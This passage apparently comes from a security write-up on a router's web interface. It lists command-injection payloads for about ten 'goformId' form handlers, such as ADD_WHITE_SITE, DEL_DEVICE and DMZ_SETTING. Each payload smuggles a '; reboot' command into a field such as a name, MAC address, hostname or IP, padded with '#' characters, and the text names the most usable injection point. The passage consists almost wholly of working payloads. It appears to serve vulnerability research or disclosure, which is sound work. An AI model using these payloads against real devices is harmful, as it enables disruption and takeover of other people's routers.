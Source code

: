 - *ADD_WHITE_SITE*: 

```
goformId=ADD_WHITE_SITE&name=test" ; reboot #&site=test
```

- *REMOVE_WHITE_SITE*: 

```
goformId=REMOVE_WHITE_SITE&ids=test" ; reboot #
```

- *DEL_DEVICE* : 

```
goformId=DEL_DEVICE&mac=" ; reboot;######
```

- *ADD_DEVICE* : 

```
goformId=ADD_DEVICE&mac=%" ; reboot;######
```

- *BIND_STATIC_ADDRESS_DEL* : 

```
goformId=BIND_STATIC_ADDRESS_DEL&mac_address=; reboot ########
```

- *BIND_STATIC_ADDRESS_ADD* : 

```
goformId=BIND_STATIC_ADDRESS_ADD&mac_address=00:00:00:00:00:00&ip_address=; reboot ;
```

- *EDIT_HOSTNAME* : 

```
goformId=EDIT_HOSTNAME&mac=00:00:00:00:00:00&hostname="; reboot #
```

- *DMZ_SETTING* : 

```
goformId=DMZ_SETTING&DMZEnabled=1&DMZIPAddress=127.0.0.1 ; reboot #
```

- *STATIC_DHCP_SETTING* : 

```
goformId=STATIC_DHCP_SETTING&mac_ip_list=+ + | reboot # ;
```

- *URL_FILTER_ADD* : 

```
goformId=URL_FILTER_ADD&addURLFilter=| reboot ; 
```

It is worth noting that some of these are constrained on size (mainly the ones padded with '#' characters), one of the best is *REMOVE_WHITE_SITE*.

## Honourable Mentions
